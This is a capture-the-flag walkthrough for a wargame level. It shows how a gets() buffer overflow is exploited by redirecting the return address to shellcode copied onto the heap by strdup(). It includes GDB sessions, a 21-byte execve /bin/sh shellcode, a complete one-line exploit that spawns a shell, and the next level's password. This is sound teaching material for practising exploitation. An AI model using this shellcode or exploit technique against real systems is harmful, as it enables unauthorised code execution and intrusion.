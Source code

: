 # Level2: Buffer Overflow with Heap Execution

## Challenge Overview

In level2, we encounter a program that reads user input into a buffer and then copies it to the heap using `strdup()`. The program includes a protection mechanism that checks if the return address has been changed to point to the stack, but doesn't prevent redirection to the heap.

## Source Code Analysis

The source code for this level reveals the vulnerability:

```c
#include <stdio.h>    // For fflush, gets, printf, puts
#include <stdlib.h>   // For _exit
#include <string.h>   // For strdup
#include <unistd.h>   // Alternative for _exit
#include <stdint.h>   // For uint32_t

void p(void);

int main(void)
{
  p();
  return 0;
}

void p(void)
{
  uint32_t return_address;
  char buffer[76];

  // Clear the stdout buffer
  fflush(stdout);

  // Read input into buffer (vulnerable to buffer overflow)
  gets(buffer);

  // Check if return address starts with 0xb0000000 (stack address range)
  // This is a protection against typical stack buffer overflow exploits
  if ((return_address & 0xb0000000) == 0xb0000000) {
    printf("(%p)\n", return_address);
    /* Process terminates here */
    _exit(1);
  }

  // Echo the input back to the user
  puts(buffer);

  // Duplicate the buffer (allocates heap memory)
  strdup(buffer);

  return;
}
```

Key observations:

1. The program uses `gets()`, which is vulnerable to buffer overflow
2. There's a protection check against stack-based exploits (addresses starting with 0xb)
3. The `strdup()` function copies our input to the heap

## The Vulnerability

This program has two key vulnerabilities:

1. **Buffer Overflow**: The use of `gets()` allows us to write beyond the 76-byte buffer
2. **Exploit Redirection**: Even though there's a check against stack-based exploits, we can redirect execution to the heap, which has addresses that typically start with 0x8

## Memory Layout and Protection Bypass

The protection check in this program targets stack addresses:

```c
if ((return_address & 0xb0000000) == 0xb0000000)
```

This checks if the highest 4 bits of the address are 0xb (1011 in binary). This is a common range for stack addresses in 32-bit Linux systems, but heap addresses typically start with 0x8, allowing us to bypass this check.

## Exploitation Strategy

Our approach leverages the heap memory allocated by `strdup()`:

1. Create a payload with a shellcode (a code that gives us a shell) at the beginning
2. Let `strdup()` copy our shellcode to the heap
3. Overflow the buffer to overwrite the return address with the heap address
4. When the function returns, execution jumps to our shellcode on the heap

## Finding the Heap Address

We used GDB to find where `strdup()` places our input:

```bash
level2@RainFall:~$ gdb -q ./level2
(gdb) disas p
# Looking at the disassembly to find the ret instruction
0x08048538 <+100>:   call   0x80483e0 <strdup@plt>
0x0804853d <+105>:   leave
0x0804853e <+106>:   ret

(gdb) break *0x0804853e  # Set breakpoint at ret instruction
(gdb) run
# Input a test string
test

Breakpoint 1, 0x0804853e in p ()
(gdb) x/s $eax  # Examine the string at the address returned by strdup
0x804a008:       "test"
```

We discovered that `strdup()` consistently places our input at address `0x804a008` on the heap.

## Creating the Exploit

With this knowledge, we crafted an exploit with:

1. Shellcode to spawn a shell
2. Padding to fill the buffer
3. A value to overwrite the 4 bytes of the stack frame (can be arbitrary)
4. The heap address (0x804a008) to overwrite the return address

### Retrieving the Shellcode

To execute `/bin/sh`, we needed a shellcode that performs the `execve` system call. Instead of writing the shellcode ourselves, we retrieved a pre-written shellcode from [Shell-Storm](http://shell-storm.org/shellcode/), a well-known repository for shellcode.

We searched for "Linux/x86 - execve /bin/sh" on Shell-Storm and found [a compact 21-byte shellcode](https://shell-storm.org/shellcode/files/shellcode-575.html):

```assembly
\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80
```

This shellcode spawns a shell by invoking the `execve` system call with `/bin/sh` as the argument.

### Finding the Exact Overflow Offsets

To verify the exact buffer layout and required offsets, we created a test pattern with different character sequences:

```bash
level2@RainFall:~$ python -c 'print("A"*76 + "B"*4 + "C"*4 + "D"*4)' > /tmp/test2
level2@RainFall:~$ gdb -q ./level2 

(gdb) run < /tmp/test2
Breakpoint 1, 0x0804853e in p () # Breakpoint at the return instruction
(gdb) x/s $eax
0x804a008:       'A' <repeats 64 times>, "CCCCAAAAAAAABBBBCCCCDDDD"
(gdb) info frame
Stack level 0, frame at 0xbffff630:
 eip = 0x804853e in p; saved eip 0x43434343
 called by frame at 0xbffff634
 Arglist at 0x42424242, args: 
 Locals at 0x42424242, Previous frame's sp is 0xbffff630
 Saved registers:
  eip at 0xbffff62c
```

This GDB session confirms several critical pieces of information:

1. The saved return address (EIP) is `0x43434343`, which is "CCCC" in ASCII
2. The stack frame data is shown as `0x42424242`, which is "BBBB" in ASCII
3. The heap address where our input is copied is consistently `0x804a008`
4. The buffer overflow occurs exactly as expected:
   - First 76 bytes fill the buffer
   - Next 4 bytes overwrite stack frame data
   - Next 4 bytes overwrite the return address

This confirms the exact layout needed for our exploit:
- Shellcode at the beginning (will be duplicated at 0x804a008)
- Padding to fill the buffer (55 bytes after our 21-byte shellcode)
- 4 bytes to overwrite stack frame data (can be any value)
- 4 bytes to overwrite the return address with 0x804a008 (heap address)

## The Final Exploit

```bash
(python -c 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "A"*55 + "BBBB" + "\x08\xa0\x04\x08"'; cat) | ./level2
```

Breaking it down:

- Shellcode (21 bytes): `\x6a\x0b\x58...` - Spawns /bin/sh
- Padding (55 bytes): `"A"*55` - Fills the remainder of the 76-byte buffer
- EBP overwrite (4 bytes): `"BBBB"` - Arbitrary value for the stack frame data
- Return address (4 bytes): `\x08\xa0\x04\x08` - 0x804a008 in little-endian format. Check level1's walkthrough for more details about little-endian.
- `cat` - Keeps stdin open for shell interaction. Check level1's walkthrough for more details.


## Getting the Password

After running the exploit, we get a shell and can read the password:

```bash
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

## Moving to Next Level

With the password obtained, we can now move to level3:

```bash
level2@RainFall:~$ su level3
Password: 492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
level3@RainFall:~$
```

## Lessons Learned

1. **Stack Protection Isn't Enough**: Simple checks on return addresses can be bypassed by using alternative memory regions like the heap.

2. **Memory Layout Understanding is Crucial**: Knowing how memory is organized (stack vs heap) allows for creative exploitation techniques.

3. **Dangerous Functions**: `gets()` remains dangerous regardless of additional checks because it allows unlimited input.

4. **Stack Frame Integrity**: When redirecting execution, properly managing the stack frame (including the EBP) is important for reliable exploits.